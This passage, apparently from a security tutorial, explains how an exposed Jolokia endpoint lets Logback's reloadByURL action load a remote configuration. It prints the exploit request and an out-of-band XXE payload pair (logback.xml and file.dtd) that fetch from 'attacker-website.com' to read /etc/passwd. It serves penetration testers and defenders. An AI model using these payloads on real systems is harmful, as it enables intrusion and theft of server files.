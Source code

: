## Logback::reloadByURL

You can list all available MBeans actions using the URL:

```http
http://127.0.0.1:8090/jolokia/list
```

Most MBeans actions just expose some system data, but if the `reloadByURL` action provided by the `Logback` library exists:

![](img/jolokia-list.png)

the logging configuration can be reload from an external URL:

```http
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

### Out-Of-Band XXE

`Logback` uses XML configuration parsed by the `SAXParser` XML parser with external entities enabled. You can exploit this feature to trigger an Out-Of-Band XXE:

```xml
<!-- logback.xml -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://attacker-website.com/file.dtd">%remote;%int;]>
<a>&trick;</a>
```

```xml
<!-- file.dtd -->
<!ENTITY % d SYSTEM "file:///etc/passwd"> 
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```
